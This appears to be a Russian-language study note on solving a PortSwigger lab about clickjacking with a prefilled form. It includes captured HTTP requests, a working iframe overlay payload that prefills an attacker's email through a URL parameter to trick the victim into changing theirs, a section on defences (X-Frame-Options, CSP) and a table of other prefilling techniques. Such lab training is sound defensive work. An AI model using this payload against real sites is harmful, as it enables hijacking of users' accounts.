




лаба https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input

нужно кликджекингом  заставить жертву нажать нажать на форму для смену емейл, при этом  саму форму нужно заполнить своим значением нового емейл, соответственно

-----

вот запрос на мою стр (там есть форма для смены емейл одной кнопкой)
```http
GET /my-account HTTP/2
Host: 0a3b007f03a2b9af803044c100950028.web-security-academy.net
Cookie: session=tJSTYI4aOOJQcjHDP4em0f5gtvKhcHlM
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3b007f03a2b9af803044c100950028.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```




вот запрос на смену емейл
```http
POST /my-account/change-email HTTP/2
Host: 0a3b007f03a2b9af803044c100950028.web-security-academy.net
Cookie: session=tJSTYI4aOOJQcjHDP4em0f5gtvKhcHlM
Content-Length: 58
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a3b007f03a2b9af803044c100950028.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3b007f03a2b9af803044c100950028.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=hacker%40bk.ru&csrf=ZtT6CPwhhGMyjZpsdqaPORRcoERpAy67

```

запрос защищен csrf

-----

вот темка - что просто нажмет на кнопку смены емейл

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 480px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe src="https://0a3b007f03a2b9af803044c100950028.web-security-academy.net/my-account"></iframe>

```




осталось сюда добавить автозаполнение формы моим емейл

сделать пост-запрос отдельный - как в csrf не выйдет - так как запрос защищен csrf!

пробовал гет запрос  ( `GET /my-account/change-email?email=hacker%40bk.ru HTTP/2` ), но гет запрос не работает - так как стоит csrf защита.. а токен csrf я не могу узнать


вот сама форма куда вписываем емейл (это html взял со стр мой-аккаунт)

```html
                       <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required type="email" name="email" value="">
                            <input required type="hidden" name="csrf" value="ZtT6CPwhhGMyjZpsdqaPORRcoERpAy67">
                            <button class='button' type='submit'> Update email </button>
                        </form>
```

-----

я сделал так (посмотрел решение) и это какой-то бред, я полчаса думал о том, как автоматом пропихнуть емейл из скрипта в форму емейла ,  НО В ЛАБЕ СДЕЛАЛИ САЙТ где типо умышленно параметр гет вписывается в форму логина, то есть этот функционал создали специально для лабы.. в жизни такое не встретишь... (наверно)

короче вот ориг запрос
`GET /my-account?email=hacker%40bk.ru HTTP/2`

а если добавить параметр 
`GET /my-account?email=hacker%40bk.ru HTTP/2` то параметр вписывается в форму на сайте..




----

тогда скрипт до безумия прост

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 480px;
        left: 70px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe src="https://0a3b007f03a2b9af803044c100950028.web-security-academy.net/my-account?email=hacker222@bk.ru"></iframe>
```

и при страбатывании этого скрипта - вижно -как емейл подставился в инпут емейла




и соответственно, при нажатии на кнопку - емейл сменится

------

отправил жертве запрос

ЛАБА РЕШЕНА

-----

### защита

такая атака возможна только если сайт позволяет предзаполнять формы через URL параметры. в реальной жизни такое встречается редко и обычно для этого есть веские причины например для удобства пользователей. защититься можно отключив автозаполнение форм через параметры URL или проверяя что запрос на смену email приходит только с той же страницы. основная защита от кликджекинга это заголовки X-Frame-Options и CSP которые запрещают загрузку сайта в iframe с других доменов


-----

#### еще могут быть такие способы предзаполнения формы (кроме GET-параметра)

| Способ                                                        | Как это работает                                                                                                                             | Где встречается                                                                                    |
| ------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------- |
| **1. JavaScript на странице**                                 | Сайт сам подтягивает данные (из localStorage, cookies, session) и JS-ом заполняет поля после загрузки страницы                               | Очень часто в современных SPA (React, Vue) — приложение само знает твой email и подставляет его    |
| **2. Данные в `localStorage`или `sessionStorage`**            | Сайт хранит твои данные в браузере и при загрузке формы достает их оттуда                                                                    | Опять же, современные веб-приложения, чтобы не дёргать сервер лишний раз                           |
| **3. Автозаполнение браузера**                                | Браузер сам предлагает и подставляет сохраненные данные (логины, пароли, email)                                                              | Это вообще стандарт. Ты просто нажимаешь на поле, и браузер предлагает варианты                    |
| **4. `drag & drop`**                                          | Жертву просят перетащить элемент, и при этом в поле вставляются нужные атакующему данные, типо капчи например может быть                     | Редкий, но зрелищный способ обойти защиту, если нужно именно "вручную" заполнить форму             |
| **5. API-запросы с токенами**                                 | Сервер генерирует одноразовую, токенизированную ссылку, которая уже содержит внутри все данные для заполнения формы, но они не видны в URL   | Используется в крупных формах (например, Formstack) для безопасной передачи данных между системами |
| **6. HTTP Parameter Pollution (HPP)**                         | Старая атака (2012 год). Если форма отправляется POST-ом, но действие формы пустое, можно вставить парамтры в URL iframe-а и обмануть сервер | Устаревший метод, работал против JSP и некоторых ASP.NET - приложений                              |
| 7. **ЛИБО какой-то свой особый функционал конкретного сайта** |                                                                                                                                              |                                                                                                    |


-----

